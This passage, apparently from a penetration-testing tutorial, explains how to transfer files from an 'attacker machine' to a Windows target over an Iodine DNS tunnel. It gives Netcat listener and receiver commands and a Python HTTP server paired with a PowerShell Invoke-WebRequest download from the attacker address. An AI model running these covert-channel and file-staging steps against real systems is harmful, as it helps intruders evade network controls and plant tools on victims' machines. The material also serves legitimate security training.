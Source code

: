         ```bash
        ipconfig /all
        ```
        
        You should see a new interface with an IP address like `10.0.0.2` assigned (assuming your Iodine server on the attacker machine is set to `10.0.0.1`).
        
    
    ---
    
    ### **Step 4: Transfer Files Over the DNS Tunnel**
    
    Now that the DNS tunnel is active, you can use it to transfer files from your attacker machine to the Windows target. You can do this with standard tools like **Netcat (nc)** or **PowerShell**, or using the **scp** command if SSH is available.
    
    Here are two examples for file transfer:
    
    ---
    
    ### **Option 1: Transfer Files Using Netcat (nc)**
    
    You can use Netcat over the DNS tunnel to transfer files between the machines.
    
    1. **On the Attacker Machine**: Start a listener to send a file via Netcat:
        
        ```bash
        nc -lvnp 4444 < /path/to/file
        
        ```
        
    2. **On the Target (Windows) Machine**: Use Netcat to receive the file:
        
        ```bash
        nc 10.0.0.1 4444 > C:\\path\\to\\outputfile
        
        ```
        
        Here, `10.0.0.1` is the IP of the attacker’s machine through the DNS tunnel.
        
    
    ---
    
    ### **Option 2: Transfer Files Using PowerShell**
    
    You can use PowerShell to download files directly from your attacker machine over HTTP (assuming you have set up a Python HTTP server on your attacker machine, similar to the original example):
    
    1. **On the Attacker Machine**: Start a Python HTTP server:
        
        ```bash
        python3 -m http.server 8000
        
        ```
        
    2. **On the Target (Windows) Machine**: Use PowerShell to download the file from the attacker machine:
        
        ```powershell
        Invoke-WebRequest -Uri <http://10.0.0.1:8000/file.txt> -OutFile C:\\path\\to\\outputfile.txt
        